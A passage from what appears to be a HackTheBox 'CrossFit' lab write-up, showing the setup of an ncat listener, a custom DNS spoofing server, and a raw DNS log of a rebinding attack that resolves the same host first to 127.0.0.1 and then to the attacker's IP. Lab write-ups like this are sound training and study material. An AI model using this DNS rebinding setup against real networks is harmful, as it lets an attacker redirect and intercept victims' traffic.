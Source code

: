 ```py

if __name__ == '__main__':
    main()
```

For this we first set up a ncat listenser on port 80 and start the dns server on port `53` udp.

```php
$ sudo nc -lnvp 80
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
```

```php
$ sudo python dns_spoof.py --port 53 --udp
Starting nameserver...
UDP server loop running in thread: Thread-1
```

With all set up we run our bash script again and look at the output.

```php
$ sudo ./forward_and_reset.sh
ok
HTTP/1.1 200 OK
```

On the dns server the request arrived and got resolved to `127.0.0.1`. However there was another request in quick succession which got resolved to `10.10.14.65` as we specified it in the server.

```php
$sudo python dns_spoof.py --port 53 --udp
Starting nameserver...
UDP server loop running in thread: Thread-1


UDP request 2021-08-12 07:12:28.472997 (10.129.68.20 38406):
57 b'\xacP\x01\x00\x00\x01\x00\x00\x00\x00\x00\x01\x0fsm1l3zemployees\x08crossfit\x03htb\x00\x00\x01\x00\x01\x00\x00)\x10\x00\x00\x00\x80\x00\x00\x00'
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44112
;; flags: rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
;; QUESTION SECTION:
;sm1l3zemployees.crossfit.htb.  IN      A
;; ADDITIONAL SECTION:
;; OPT PSEUDOSECTION
; EDNS: version: 0, flags: do; udp: 4096
---- Reply:
 ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44112
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 2
;; QUESTION SECTION:
;sm1l3zemployees.crossfit.htb.  IN      A
;; ANSWER SECTION:
sm1l3zemployees.crossfit.htb. 10      IN      A       127.0.0.1
;; AUTHORITY SECTION:
sm1l3zemployees.crossfit.htb. 10      IN      SOA     ns1.sm1l3zemployees.crossfit.htb. andrei.sm1l3zemployees.crossfit.htb. 201307231 3600 10800 86400 3600
;; ADDITIONAL SECTION:
sm1l3zemployees.crossfit.htb. 10      IN      NS      ns1.sm1l3zemployees.crossfit.htb.
sm1l3zemployees.crossfit.htb. 10      IN      NS      ns2.sm1l3zemployees.crossfit.htb.


UDP request 2021-08-12 07:12:28.503203 (10.129.68.20 41908):
57 b'\x04N\x01\x00\x00\x01\x00\x00\x00\x00\x00\x01\x0fsm1l3zemployees\x08crossfit\x03htb\x00\x00\x01\x00\x01\x00\x00)\x10\x00\x00\x00\x80\x00\x00\x00'
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1102
;; flags: rd; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
```